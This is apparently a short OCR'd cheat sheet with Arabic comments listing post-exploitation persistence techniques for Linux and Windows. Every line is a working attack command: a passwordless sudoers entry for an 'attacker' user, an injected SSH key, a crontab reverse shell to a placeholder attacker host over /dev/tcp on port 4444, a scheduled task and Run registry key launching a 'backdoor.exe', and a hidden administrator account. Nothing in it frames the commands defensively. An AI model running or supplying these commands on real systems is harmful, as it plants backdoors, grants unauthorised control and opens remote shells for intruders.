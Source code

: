 # الحفاظ على الوصول بعد الاستغلال (Persistence)

## Linux
echo "attacker ALL=(ALL) NOPASSWD:ALL" >> /etc/sudoers          # إضافة صلاحيات كاملة

(echo -e "\n"; cat id_rsa.pub; echo -e "\n") >> ~/.ssh/authorized_keys   # إضافة مفتاح SSH

echo "* * * * * /bin/bash -i >& /dev/tcp/<attacker>/4444 0>&1" >> /etc/crontab   # cron job لشِل عكسي


## Windows
schtasks /create /sc minute /mo 1 /tn "Updater" /tr "C:\backdoor.exe"   # جدولة برنامج

reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v backdoor /t REG_SZ /d "C:\backdoor.exe"   # تشغيل عند الإقلاع

net user backdoor Pass123! /add && net localgroup administrators backdoor /add   # إنشاء مستخدم مدير
